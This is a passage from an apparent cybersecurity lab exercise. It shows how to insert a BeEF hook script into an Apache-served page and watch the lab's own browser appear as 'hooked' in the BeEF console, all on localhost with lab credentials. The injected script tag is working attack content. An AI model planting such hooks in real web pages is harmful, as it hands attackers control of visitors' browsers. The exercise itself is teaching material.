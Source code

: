    - Run	`sudo service apache2 start`   
   
   Minimize the window. We'll come back to it in a bit.  
      
3. Now we will edit the webpage, adding malicious JavaScript to the header section and modifying the JavaScript by changing the IP address to that of Kali Linux (the BeEF controller). 

   When a user visits this webpage, their browser will be hooked by BeEF and the attacker will gain control of it. 
      
   - Use Nano to edit the HTML file:
      - Run `sudo nano /var/www/html/index.html`
      
   Paste the malicious JavaScript line  `<script src="http://127.0.0.1:3000/hook.js></script>` inside the HTML header section (anywhere between the `<head>` and `</head>` tags) on its own line.
      
      -	Replace the IP address using the IP of the Kali host.
      
      -	Save the file and exit.

   The `<head>` section of your file should look like this:

      ```html
      <!doctype html>
      <!--- Website template by freewebsitetemplates.com--->
      <html>
      <head>
               <meta charset="UTF-8">
               <meta name="Viewport" content="width=device-width, initial-scale=1.0">
               <title>Space Science Website Template</title>
               <link rel="stylesheet" href="css/style.css" type="text/css">
               <link rel="stylesheet" type="text/css" href="css/mobile.css">
               <script src="js/mobile.js" type="text/javascript"></script>
               <script src="http://127.0.0.1:3000/hook.js></script>
      </head>
      <body>
      ```

      -	Replace the IP address using the localhost IP of `127.0.0.1`. 
      
      -	Save the file and exit.
      
      - Restart the apache server by running:
        - `service apache2 restart`

   Open a web browser and click the BeEF Authentication shortcut on the shortcut toolbar.
      
      -	Username: `beef`
      -	Password: `cybersecurity`
   
4. Acting as the victim, type `localhost` into the URL:
   
   - `localhost`
   
   
5. Returning back to act as the attacker, we can see our victim `127.0.0.1` under **Online Browsers**, in the **Hooked Browsers** section.

   -	You will see the hooked web browser from the Kali machine.
   